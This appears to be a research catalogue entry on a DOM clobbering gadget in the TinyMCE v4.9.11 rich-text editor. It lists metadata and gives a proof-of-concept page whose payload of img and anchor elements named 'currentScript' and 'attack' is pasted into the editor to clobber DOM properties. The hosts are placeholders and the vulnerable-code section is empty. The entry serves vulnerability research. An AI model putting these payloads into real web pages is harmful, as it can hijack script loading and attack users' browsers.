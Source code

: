 ## TinyMCE

### Meta

+ Library: TinyMCE-v4
+ Version: v4.9.11
+ Stars: 14.9K
+ Fingerprint: `typeof(window.tinymce) !== undefined`
+ Input: Copy&Paste
+ Sanitizer: N/A
+ Capability: Any named property
+ CVE: N/A
+ Status: N/A

### Library

https://github.com/tinymce/tinymce


### Vulnerable Code Snippet

### PoC 

```html
<!--Library-->
<script src="https://cdn.tiny.cloud/1/kvw088syhtkdcjivzwu785cisjwpon4zfjj2isannsfsw555/tinymce/4/tinymce.min.js" referrerpolicy="origin"></script>

<script>
  tinymce.init({
  selector: 'textarea#default'
});
</script>
<textarea id="default">Hello, World!</textarea>
<!--Library-->


<!--Payload-->
<img name="currentScript" src="https://xxx.xxx.xxx">
<img name="attack" src="https://xxx.xxx.xxx">
<a name="attack" href="https://xxx.xxx.xxx">AAA</a>
<p>Copy & Paste the following rendered HTML elements to the editor and Run the following code: tinymce.activeEditor.getContent("default");</p>
<!--Payload-->
```